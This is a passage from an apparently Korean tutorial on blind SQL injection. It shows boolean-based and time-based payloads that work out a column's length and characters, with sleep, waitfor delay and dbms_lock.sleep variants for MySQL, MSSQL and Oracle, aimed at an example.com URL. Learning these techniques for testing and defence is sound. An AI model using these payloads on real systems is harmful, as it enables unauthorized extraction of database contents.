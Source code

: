- 칼럼 길이 결정
```bash
5 AND LENGTH(컬럼명)=1--+                (결과:거짓)
5 AND LENGTH(컬럼명)=2--+                (결과:거짓)
5 AND LENGTH(컬럼명)=3--+                (결과:참)    <---컬럼의 길이는 3임.
```
- 문자 추론
```bash
# 첫번째 문자 추론
5 AND SUBSTRING(컬럼명,1,1)='a'--+       (결과:거짓)
5 AND SUBSTRING(컬럼명,1,1)='b'--+       (결과:참)    <---첫번째 문자: 'b'

# 두번째 문자 추론
5 AND SUBSTRING(컬럼명,2,1)='s'--+       (결과:거짓)
5 AND SUBSTRING(컬럼명,2,1)='t'--+       (결과:거짓)
5 AND SUBSTRING(컬럼명,2,1)='u'--+       (결과:참)    <---두번째 문자: 'u'

# 세번째 문자 추론
5 AND SUBSTRING(컬럼명,3,1)='f'--+       (결과:거짓)
5 AND SUBSTRING(컬럼명,3,1)='g'--+       (결과:참)    <---세번째 문자: 'g'
```
참으로만 나온 SQL 쿼리의 문자를 조합하면 bug 가 된다.

## Time(시간) 기반
SQL 쿼리의 참/거짓 여부에 따른 HTTP 응답의 차이를 육안으로 확인이 불가능하니 서버의 응답 시간 제어가 가능한 경우 사용된다. 공격자는 응답상에서 참/거짓을 판단할 수 있는 단서가 없으므로 참인 경우 의도적으로 서버의 응답을 지연시키는 함수를 주입하여 지정된 시간만큼 응답이 지연된다면 참으로 판단한다. SQL 쿼리에 서버의 응답 시간을 제어하기 위한 DBMS별 함수는 다음과 같다
```bash
MySQL (또는 MariaDB) - sleep()
MSSQL - waitfor delay 
Oracle - BEGIN dbms_lock.sleep(); END;
```

Boolean 기반의 공격과 같은 진입점으로 예를 든다. 단 이번에는 SQL 쿼리를 참/거짓 여부에 따른 응답에 차이가 없고 항상 동일한 경우이다.
```bash
http://www.example.com/view.php?id=5

# DBMS 별로 검사
# MySQL 또는 MariaDB
http://www.example.com/view.php?id=5 AND if(1=1,sleep(10),false)--+

# MSSQL
http://www.example.com/view.php?id=5 AND if (1=1) waitfor delay '0:0:10'--+

# Oracle
http://www.example.com/view.php?id=5 AND if 1=1 then BEGIN dbms_lock.sleep(10); END; end if--+
```
if문의 1=1은 참이므로 서버의 응답시간 10초 만큼 지연될 것이다. 공격은 Boolean과 거의 동일한 구문이 사용된다. 다음 예는 MySQL에 대한 예이며 다른 DBMS는 위와 같이 수정해서 사용하면 된다.
- 칼럼 길이 결정
```bash
5 AND if(LENGTH(컬럼명)=1, sleep(10), false)--+           (결과:거짓)
5 AND if(LENGTH(컬럼명)=2, sleep(10), false)--+           (결과:거짓)
5 AND if(LENGTH(컬럼명)=3, sleep(10), false)--+           (결과:참)  <--- 컬럼 길이는 3임.
```
